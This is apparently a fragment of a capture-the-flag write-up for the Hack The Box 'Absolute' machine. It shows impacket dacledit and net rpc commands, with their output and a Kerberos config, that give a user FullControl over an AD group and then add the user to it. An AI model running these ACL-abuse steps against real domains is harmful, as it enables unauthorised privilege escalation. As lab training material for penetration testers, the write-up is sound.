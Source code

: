 ```python
import sys
sys.path.insert(0, '')
```

```bash
faketime '2023-11-21 22:50:00' python dacledit.py -k -no-pass absolute.htb/m.lovegod -dc-ip dc.absolute.htb -principal m.lovegod -target "Network Audit" -action write -rights FullControl
Impacket v0.11.0 - Copyright 2023 Fortra

[*] DACL backed up to dacledit-20231121-202104.bak
[*] DACL modified successfully!
```

##### Step 3: Add user `m.lovegod` to the groups `Network Audit`
This step is so annonying. * https://youtu.be/rfAmMQV_wss?feature=shared&t=3871

You have to keep a great `krb5.conf` And run all these 3 steps very fast, otherwise the cleanup script will remove all of it.

`nameserver 10.129.229.59`

```bash
[libdefaults]
        default_realm = ABSOLUTE.HTB

        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        fcc-mit-ticketflags = true

[realms]
        ABSOLUTE.HTB = {
                kdc = dc.absolute.htb
                admin_server = dc.absolute.htb
                default_domain = absolute.htb
        }

[domain_realm]
        .absolute.htb = ABSOLUTE.HTB
        absolute.htb = ABSOLUTE.HTB
        ```
```bash
faketime '2023-11-21 22:49:00' net rpc group addmem "Network Audit" m.lovegod -U 'm.lovegod' --use-kerberos=required -S dc.absolute.htb
Password for [WORKGROUP\m.lovegod]:

faketime '2023-11-21 22:35:00' net rpc group members "Network Audit" -U 'm.lovegod' --use-kerberos=required -S dc.absolute.htb
Password for [WORKGROUP\m.lovegod]:
absolute\m.lovegod
absolute\svc_audit

Or ldap to search if the user was added successfully  
ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -b "cn=m.lovegod,cn=users,dc=absolute,dc=htb"
```

